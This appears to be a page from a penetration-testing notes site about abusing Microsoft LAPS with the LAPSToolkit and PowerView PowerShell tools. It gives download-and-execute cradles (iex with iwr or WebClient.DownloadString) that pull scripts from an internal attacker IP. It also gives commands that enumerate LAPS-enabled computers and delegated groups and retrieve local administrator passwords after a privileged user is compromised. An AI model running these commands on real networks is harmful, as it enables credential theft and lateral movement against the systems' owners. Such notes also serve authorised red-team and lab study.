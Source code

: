 # LAPS

## LAPS ToolKit&#x20;

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Load the module&#x20;

```csharp
. .\LAPSToolkit.ps1
or
Import-Module .\LAPSToolkit.ps1
```

### Locate computers

```csharp
. .\LAPSToolkit.ps1
Get-LAPSComputers
Find-LAPSDelegatedGroups
```

![](<../../../../.gitbook/assets/image (148).png>)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](<../../../../.gitbook/assets/image (281).png>)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](<../../../../.gitbook/assets/image (25) (1).png>)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](<../../../../.gitbook/assets/image (249) (1).png>)

## Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}
